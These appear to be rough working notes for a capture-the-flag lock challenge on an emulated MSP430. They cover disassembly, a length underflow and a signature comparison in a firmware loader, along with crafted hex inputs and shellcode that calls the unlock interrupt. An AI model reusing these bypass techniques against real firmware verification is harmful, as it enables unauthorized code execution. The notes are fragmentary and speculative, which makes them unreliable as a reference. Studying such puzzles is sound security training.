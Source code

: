 TODO: check if byte pair orderings need to be swapped

```text
800000063041c26436953f8f3cadf1442fc218b185051ab6c20853a45f093fc32a
df31529d05a5ec3e96a9e41ed9ad1b14dcbdb98e50e37a7ddc3d595b867807ed16
05f2070e
```

```
800000063041c26436953f8f3cadf1442fc218b185051ab6c20853a45f093fc32adf31529d05a5ec3e96a9e41ed9ad1b14dcbdb98e50e37a7ddc3d595b867807ed1605f2070e
```


Load address outside allowed range of 0x8000-0xF000



Example test input:
8081010662636465666768696A6B6C6D6E6F707172737475767778797A4142434445464748494A4B4C4D4E4F505152535455565758595A00

[0..1][2][3][data]
  |     \  \- byte 4 is some sort of offset byte
  |      byte 3 is verifier type
   \- first 2 bytes load address

[8000]
[01] verifier type 1 == sha512, everything else is ed25519
[04] payload len? 0x06-0xff (underflow and error when < 0x06)
     so it copies everything after that len as the sig to check?

### Len check on payload length/offset byte 

```c
offset = offset - 6; // if < 6 this wraps to ~0xffff
if (offset >= 0x3bb) {
    goto error;
}
```

// copy the "signature" to check
memcpy(user_input+payloadlen,stack_buffer,0x40)

// pass the offset, and the pointer to the user input to the sha512 function
r14 == payloadlen 
r15 == start of user input (#0x2420)
call	#0x4566 <sha512>


In the call to SHA512, set the syscall id so that it calls sha1 and sha256 instead of sha512

Test input: 
```
8081010662636465666768696A6B6C6D6E6F707172737475767778797A4142434445464748494A4B4C4D4E4F505152535455565758595A414141414141414141414141414141
```

```c
let 43b6 = 30 // sha1
let 43b8 = 31 // sha256
let 43ba = 32 // sha512
let 43ba = 33 // ed25519
```

```
```

```
```

```
defghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZAAAAAAAAAAAAAAA
```

```c
8081010662634cf95d6ac044341779df9e8fb37b9b0704b7f97d7a094a066bba44381929743e08e274dafb4cd400093a8cac7554533169df5cb94f6a44d1955cb206bcb936b9
```

```c

printf "\x80\x81\x01\x06\x62\x63" | sha1sum

// sha1 (20 bytes)
5c92 ce95 0ec2 9085 ab03 0add 6816 bc58 537e 8fb9

// sha256

// sha512

```

compare the hashed output, to the user supplied input hash at specified offset 
with constant 0x40 length

if it all matches, then pop the 8081 off the stack into r11
but then it checks if r15 is 1, and if it is not, it throws an error
so inside of the memcmp, we need to exploit this compare:
```
4608:  4f4b           mov.b	r11, r15
460a:  4e4c           mov.b	r12, r14
460c:  0f8e           sub	r14, r15
```
so that r15 == 1

so for example, if the compared byte is 4c then we set the input to 4b.
```

```
808101069c9a1cb8afef1eb9a8ca0a95ea154d1063ff545e5270ef3868690c150b4ea55a9c59ae1593c532f21b56e16a21001fadaabafa1a04c224e7b0007b25b015c5a2
```


hashes N bytes from the start of the user input


8081010a62634cf95d6ac044341779df9e8fb37b9b0704b7f97d7a094a066bba44381929743e08e274dafb4cd400093a8cac7554533169df5cb94f6a44d1955cb206bcb936b9

```
r13 == copied payload buffer 
r14 == payloadlen 
r15 == start of user input (#0x2420)
call	#0x4566 <sha512>
```

then copies this into the buffer at 8081, and jumps to it to execute it

```

// set r15 to syscall to open lock
// jmp to INT 

// Calling interrupt 0x7f will do the trick.
push #0x007f
call #0x452a 

30127f00b0122a45
let ff80 = 1230
let ff82 = 007f
let ff84 = 12b0
let ff86 = 452a

let pc = ff80

8000016162636465666768696A6B6C6D6E6F707172737475767778797A4142434445464748494A4B4C4D4E4F505152535455565758595A




// the payload
80000106000030127f00b0122a45

f000010e0b9b30127f00b0122a45036D6E6F707172737475767778797A4142434445464748494A4B4C4D4E4F505152535455565758595A

4cf95d6ac044341779df9e8fb37b9b0704b7f97d7a094a066bba44381929743e08e274dafb4cd400093a8cac7554533169df5cb94f6a44d1955cb206bcb936b9

//
let f000 = 9090
let f002 = 1230
let f004 = 007f
let f006 = 12b0
let f008 = 452a

let pc = f000










Read N from byte 4 and add to base:
44aa:  084a           mov	r10, r8
44ac:  3850 2024      add	#0x2420, r8

Copy 0x40 bytes from base + offset to stack buffer.

```
44c0:  0d41           mov	sp, r13            // output
44c2:  0e4a           mov	r10, r14           // size? offset? specified by byte 4
44c4:  3f40 2024      mov	#0x2420, r15       // pointer to input
44c8:  b012 6645      call	#0x4566 <sha512>
```
makes a sha512 of the full input and saves it to sp 

then compares 

r13 == 0x40 (64, size of a sha512 hash)
r14 == ?? looks like a pointer to some memory, maybe controlled by the offset on the input?
r15 == the sha512 hash of the input

// copy 64 bytes of input data, from input + offset, into a buffer
```
44cc:  3d40 4000      mov	#0x40, r13      // 64 bytes
44d0:  0e48           mov	r8, r14         // from base of input + offset 
44d2:  0f41           mov	sp, r15         // output is buffer on stack
44d4:  b012 fa45      call	#0x45fa <memcmp>
```

``` 64 bytes
242f 6d6e 6f70 7172 7374 7576 7778 797a 4142  mnopqrstuvwxyzAB
243f 4344 4546 4748 494a 4b4c 4d4e 4f50 5152  CDEFGHIJKLMNOPQR
244f 5354 5556 5758 595a 0000 0000 0000 0000  STUVWXYZ........
245f 0000 0000 0000 0000 0000 0000 0000 0000  ................
```




Ideas : 
 1. null byte in the middle of the input
 2. maybe memory is not reset between runs, so we can use the previous run to set the hash to something we want

```
44aa:  084a           mov	r10, r8     // 8 is an offset (this is also used later for the sha512)
44ac:  3850 2024      add	#0x2420, r8 // 2420 is the start of the input
```


8000010F62636465666768696A6B6C6D6E6F707172737475767778797A4142434445464748494A4B4C4D4E4F505152535455565758595A00


printf "\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x35\x55\x56\x57\x58\x59\x5a\x00" | sha512sum


[8000][01][0F]62636465666768696A6B6C6D6E6F707172737475767778797A4142434445464748494A4B4C4D4E4F505152535455565758595A00

[8000]
[01] verifier type 1 == sha512, 
[04] payload len 0x06-0xff (weird behavior when lower)

8000010662636465666768696A6B6C6D6E6F707172737475767778797A4142434445464748494A4B4C4D4E4F505152535455565758595A00


memcpy(user_input+payloadlen,stack_buffer,0x40)

```
r13 == copied payload buffer 
r14 == payloadlen 
r15 == start of user input (#0x2420)
call	#0x4566 <sha512>
```


Before SHA512 :
```
43c0: 6465 6667 6869 6a6b 6c6d 6e6f 7071 7273   defghijklmnopqrs
43d0: 7475 7677 7879 7a41 4243 4445 4647 4849   tuvwxyzABCDEFGHI
43e0: 4a4b 4c4d 4e4f 5051 5253 5455 5657 5859   JKLMNOPQRSTUVWXY
43f0: 5a00 0000 0000 0000 0000 0000 0000 0000   Z...............
4400: 5542 5c01 35d0 085a 8245 2028 3140 0044   UB\.5..Z.E (1@.D
-----
```

After SHA512 :
```
43b0: 3e45 0300 7445 3200 2024 0600 c043 cc44   >E..tE2. $...C.D
43c0: cf9f 8971 c4a8 7291 0bf5 8cb0 a972 e4e0   ...q..r......r..
43d0: e500 eb0f 01fc b23f 4512 9987 c6ee 7b51   .......?E.....{Q
43e0: 983c 0d88 d22a dcd7 3ddb 9e24 9738 9d87   .<...*..=..$.8..
43f0: f7b1 eb74 19f2 2c1d 926b e534 c027 e628   ...t..,..k.4.'.(
4400: 5542 5c01 35d0 085a 8245 2028 3140 0044   UB\.5..Z.E (1@.D
-----
```

So the length doesnt truncate the output, I'm not sure what it 
is used for in the SHA512 function. There is a sha1, sha256, and 
sha512 function in the firmware, but only sha512 is used. Perhaps
this is a hint that there is a bug in the sha512 function that is
also present in the other functions.

4542 <sha1>
4554 <sha256>
4566 <sha512>

```
let 44c8 = b0 
let 44c9 = 12
let 44ca = 66
let 44cb = 45

//sha1
let 44c8 = b0 
let 44c9 = 12
let 44ca = 42
let 44cb = 45

```